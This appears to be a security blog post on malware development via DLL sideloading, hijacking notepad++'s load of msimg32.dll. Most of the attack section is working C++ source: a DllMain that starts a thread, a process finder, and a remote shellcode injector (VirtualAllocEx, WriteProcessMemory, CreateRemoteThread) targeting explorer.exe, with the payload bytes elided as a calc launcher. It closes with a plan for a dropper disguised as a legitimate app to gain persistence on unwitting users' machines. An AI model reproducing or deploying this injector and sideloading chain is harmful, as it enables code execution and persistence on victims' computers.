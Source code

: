 title: "Malware Development - DLL Sideloading"
classes: wide
header:
teaser: /assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/logo.jpg
ribbon: Purple
description: "DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from ..."
categories:

- Malware Analysis

---

DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from a location other than the application's install directory. This is often done to enable an application to use a specific version of a DLL or to load a DLL that is not in the system's default search path. In some cases, DLL sideloading can be used to introduce malicious code into an application, so it is generally considered a security risk and is often disabled on corporate and enterprise networks.

## Concept

The concept of DLL sideloading is based on the fact that many applications use DLLs to provide additional functionality or to implement certain features. A DLL is a type of file that contains code and data that can be used by multiple applications at the same time. When an application needs to use a particular DLL, it typically loads the DLL from the application's install directory or from a location specified in the system's default search path.

Here in our case, "notepad++.exe" tries to load "MSIMG32.DLL", first it will search the DLL in its folder, then check it if avaliable in "System32" folder. We will hijack this part of process, we will copy and save the DLL from "System32", add dependencies to the original but renamed DLL so that our malicious DLL does not give any errors. When "notepad++.exe" executed, our malicious DLL will be loaded without any error and calc.exe executes.

`this article will not cover obfuscation, use it for educational purposes, source code is at the bottom`

### Finding Vulnerable DLLs

As a mentioned before, this procedure requires a vulnerable DLL with "NAME NOT FOUND" result. I choose "notepad++.exe", looked for a process that resulted "NAME NOT FOUND" and picked "msimg32.dll".

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_134707_image.png)

I used my previous malware development - dropper codes, you can check them [here](https://github.com/vvelitkn/MalwareDev-Dropper).

First we should create the malicious DLL (which spawns calc.exe), so we open a new DLL project on Visual Studio named "msimg32" (you should name it with the target DLL's name). We set DllMain function like below and the rest of the code is very same as my previous code. "Action" is our malicious function.

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#define _CRT_SECURE_NO_DEPRECATE
#pragma warning (disable : 4996)

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  reason_for_call,
    LPVOID lpReserved
)
{
    HANDLE hThread = NULL;
    switch (reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        hThread = CreateThread(NULL, 0, Action, NULL, 0, NULL);
        CloseHandle(hThread);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

When "Action" function called, it makes these happen.

Action -> find and open target process -> inject payload

```cpp
//msfpayload windows/x64/exec CMD="calc" EXITFUNC=thread
unsigned char payload[] = {.......}

HANDLE FindTargetProcess(const LPCSTR processName)
{
    int pid = 0;
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnap)
        return 0;

    PROCESSENTRY32 ProcessListEntry;
    ProcessListEntry.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnap, &ProcessListEntry))
    {
        CloseHandle(hSnap);
        return 0;
    }  

    while (Process32Next(hSnap, &ProcessListEntry))
    {
        if (lstrcmpi(processName, ProcessListEntry.szExeFile) == 0)
        {
            pid = ProcessListEntry.th32ProcessID; break; 
        }
    }

    CloseHandle(hSnap);

    if (pid)
        return OpenProcess(PROCESS_CREATE_PROCESS | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD)pid);

    return NULL;
}

int InjectPayload(HANDLE hProcess, unsigned char* payload, unsigned int payloadSize)
{

    LPVOID pRemoteShellcode = NULL;
    pRemoteShellcode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProcess, pRemoteShellcode, (PVOID)payload, (SIZE_T)payloadSize, (SIZE_T*)NULL);

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteShellcode, NULL, 0, NULL);
    if (hThread != NULL)
    {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

DWORD WINAPI Action(LPVOID lpParameter)
{
    HANDLE hProcess = NULL;
    unsigned int payloadsize = sizeof(payload);

    char pName[] = "explorer.exe";
    hProcess = FindTargetProcess(pName);

    if (hProcess != NULL)
    {
        InjectPayload(hProcess, payload, payloadsize);
        CloseHandle(hProcess);
    }
    return 0;
}



```

After completing the payload and injection stages, we write the export functions of my original but renamed DLL so that our malicious DLL does not fail while loading.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_162822_image.png)

Let's test it out.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/pos.gif)

So far, so good. Our malicious DLL loading without error. We hijack the loading cycle, but we can do more. Let's create a dropper for "msimg32.dll" and make it look like a legit app which drops our malicious DLL. So we will do this here:

Dropper -> Mal DLL + NonMal DLL -> execute payload

This procedure will give us the advantage: persistence. The careless user will run our dropper and if the user has notepad++ on their computer we will upload our files there.

To be continued.


- [Source Code](https://github.com/vvelitkn/MalwareDev-DLL-Sideloading)
